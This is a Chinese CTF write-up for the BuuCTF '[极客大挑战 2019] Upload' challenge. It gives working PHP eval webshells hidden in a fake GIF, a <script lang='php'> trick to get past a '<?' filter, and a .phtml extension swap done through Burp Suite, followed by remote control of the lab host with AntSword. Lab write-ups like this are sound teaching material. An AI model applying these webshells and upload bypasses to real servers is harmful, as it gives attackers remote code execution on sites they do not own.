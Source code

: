 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - PHP
  - 一句话木马
---
```


# \[极客大挑战 2019\] Upload

## 前置工作

打开靶机，看到的就是如此简简单单的文件上传入口，通常这种文件上传的就应该想到**一句话木马**，然后使用**蚁剑**获得靶机的操控权

![](https://p.sda1.dev/13/bb15d8379c77045d0f53ae2a835ae7b8/image.png)

!!! note "通常我们会这么写一句话木马"
    ```php
    <?php @eval($_POST['蚁剑连接密码']);?>
    ```

网页的标题名字叫`上传头像`，说明我最好伪造一个图片文件，把木马植入进去

## 图片木马

为什么要伪造 GIF 作为木马图片，因为文件头是固定的，如果你的文件头是 `GIF89a?`，那么你就是一张 GIF 图片（不论你后面跟着的是什么），所以我们就用最简单的方法制作一个 GIF 图片木马，以下是 `a.gif` 的代码

```php
GIF89a?
<?php @eval($_POST['attack']);?>
```

随后我们上传 `a.gif`，发现报错 `NO! HACKER! your file included '<?'`，说明他检测到了我木马文件中的 `<?php` 字段，那么我现在希望的是能绕过这个检测，这就需要 PHP 的另一种写法了

![](https://p.sda1.dev/13/cd365affb109724c4c785c059f3db2fa/image.png)

## 木马改进

除了使用 `<?php ?>` 的方式声明 PHP 代码，我们还能够使用传统的 JS 脚本声明方法，即 `<script lang="php"></script>`，这就能够绕过 `<?php` 的检测，以下是改进后的木马

```php
GIF89a?
<script lang="php">
    @eval($_POST['attack']);
</script>
```

我们把改进后的 `a.gif` 上传，发现上传已完成，但是 `.gif` 的格式摆脱不了被当成图片处理的本质，我们需要对后缀进行更改

![](https://p.sda1.dev/13/4235037389767da5dc5413f31a3e8b7a/image.png)

## 后缀更改

我们使用 Burp Suite 进行第二次上传，使用拦截模式提供的内嵌浏览器，将刚才的 `a.gif` 再一次上传，此时查看 Burp Suite 发现已经将 Http 请求拦截下来了

![](https://p.sda1.dev/13/abe920c6faaf9362e8497c31e8a05067/image.png)

在第 16 行有一个 `filename="a.gif"` ，我们直接点，把 `.gif` 改成 `.php`，并放行，发现报错

![](https://p.sda1.dev/13/ab210ba8d1012b18d62f1dd45eebfb0b/image.png)

说明我们不能很单纯地使用 `.php` 后缀，但是实际上不仅仅有 `.php` 后缀的文件才能被执行，我们可以使用变式后缀，例如 `.phtml`，打开的时候也会被当成 PHP 文件执行，于是我们更改 `filename="a.phtml"`，再次放行

![](https://p.sda1.dev/13/29d4bc4b071bb1912322896834a60496/image.png)

## 攻入靶机

发现文件已经成功上传，我们猜测保存在根目录，尝试访问 `/a.phtml`，发现不存在，再次猜测保存在 `/upload` 目录，尝试访问 `/upload/a.phtml`，发现能够访问，但是除了第一行的 `GIF89a?` 之外没有任何内容，此时是正常情况，我们已经可以利用蚁剑进行连接了，我们打开蚁剑，右键添加数据，按照如下图所示填写内容，连接密码即在一句话木马中，随后点击测试连接，提示连接成功，点击添加即可

![](https://p.sda1.dev/13/c06ea551e002ae398d235a923581fce2/image.png)

随后如下页面右键选择文件管理

![](https://p.sda1.dev/13/6d4407c792a5b3622afca08488f6bee7/image.png)

进入后直接往根目录去看，拉到底一下就发现了 `flag` 文件

![](https://p.sda1.dev/13/bb24c5cdb9de05545880c455bdf5c470/image.png)

点开就能看到 Flag 了，最终结果为 `flag{8cf43e2c-bfc7-4900-80d7-900ff5512f1a}`